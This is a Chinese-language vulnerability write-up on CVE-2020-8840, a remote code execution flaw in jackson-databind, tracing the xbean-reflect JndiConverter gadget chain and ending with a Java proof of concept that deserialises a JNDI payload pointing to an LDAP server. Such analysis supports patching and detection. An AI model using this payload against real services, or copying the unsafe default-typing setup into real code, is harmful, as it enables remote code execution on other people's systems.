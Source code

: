 # （CVE-2020-8840）FasterXML jackson-databind 远程代码执行漏洞

> 原文：[http://book.iwonder.run/0day/FasterXML jackson/CVE-2020-8840.html](http://book.iwonder.run/0day/FasterXML jackson/CVE-2020-8840.html)

## 一、漏洞简介

`FFasterXML/jackson-databind`是一个用于 JSON 和对象转换的 Java 第三方库，可将 Java 对象转换成 json 对象和 xml 文档，同样也可将 json 对象转换成 Java 对象。

此次漏洞中攻击者可利用`xbean-reflect`的利用链触发 JNDI 远程类加载从而达到远程代码执行。

## 二、漏洞影响

*   jackson-databind 2.0.0 – 2.9.10.2
*   经验证 fastjson 在开启了 autoType 功能的情况下，影响最新的 fastjson v1.2.62 版本

## 三、复现过程

可以在 git 提交记录中清楚看到利用的具体类

![image](img/a16b572633a2791fe09563ae93bcd14e.png)

分析下利用链，通过传进参数`asText`，触发 setter，`setAsText()`函数

![image](img/06a01897dc5eb7cec0fb9dcc465ef94c.png)

随后跟进`toObject()`函数

![image](img/f532fcfd7921bdb90a0d6e647209c390.png)

最终进到`JndiConverter`重写的`toObjectImp()`函数

![image](img/de8efcc6b6aedcdb8901624caabc71bf.png)

此时出现经典的 JNDI 注入，text 刚好就是我们传进的 asText，我们可控，从而达到命令执行目的

![image](img/dea1940f26b22fe70a8a0b05ec46caf8.png)

### poc

```
import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.IOException;

public class Poc {
    public static void main(String args[]) {
        ObjectMapper mapper = new ObjectMapper();

        mapper.enableDefaultTyping();

        String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";

        try {
            mapper.readValue(json, Object.class);
        } catch (IOException e) {
            e.printStackTrace();
        }

    }
} 
```

